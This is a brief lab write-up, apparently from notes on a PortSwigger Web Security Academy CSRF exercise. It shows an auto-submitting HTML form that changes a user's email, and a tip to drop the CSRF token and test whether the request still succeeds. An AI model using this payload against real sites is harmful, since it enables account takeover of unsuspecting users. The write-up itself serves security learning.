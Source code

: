 # CSRF Vulnerability


![****](/PortSwigger/Academy/PortSwigger/Labs/CSRF/Screenshots/cssrf3.PNG)


## Let generate some Payloads!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway

- Just remove the CSRF Token field and check if you can submit the request!